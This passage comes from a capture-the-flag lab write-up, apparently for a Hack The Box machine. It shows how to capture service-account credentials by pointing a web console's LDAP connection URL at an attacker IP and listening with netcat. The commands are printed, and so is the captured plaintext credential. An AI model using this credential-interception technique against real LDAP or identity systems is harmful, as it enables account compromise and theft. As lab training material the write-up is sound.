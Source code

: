 So, logically we use the ansible password we cracked earlier and we're able to login. We're then met with a heirarchy like side bar. When we click around, we see an interesting section under LDAP > LDAP Directories > default > Connection. 

<div class="normal-photo">
  <img src="/assets/img/Authority-connection.jpeg" alt="connection tab" class="competition-image">
</div>

This section has a place where we can specify LDAP URLs. We can see that by default, the url is pointing to the authority.authority.htb domain on port 636. But what if we add or change it so that it connects to our ip address? We can do that with this:

~~~bash
# In the section url section:
ldap://10.10.14.29:4444

# On your Kali machine:
nc -lvp 4444
~~~

You may notice that the URLs are slightly differnt between the "ldap:" section. We want to use ldap because we want an unencrypted version of whatever information they send to us. If we were to use ldaps, all of the data would be encrypted and useless to us. You can think of this as http vs https protocols.

So, we hit the "Test LDAP Profile" button at the very top and upon succession, we see that we get credentials. svc_ldap:lDaP_1n_th3_cle4r!
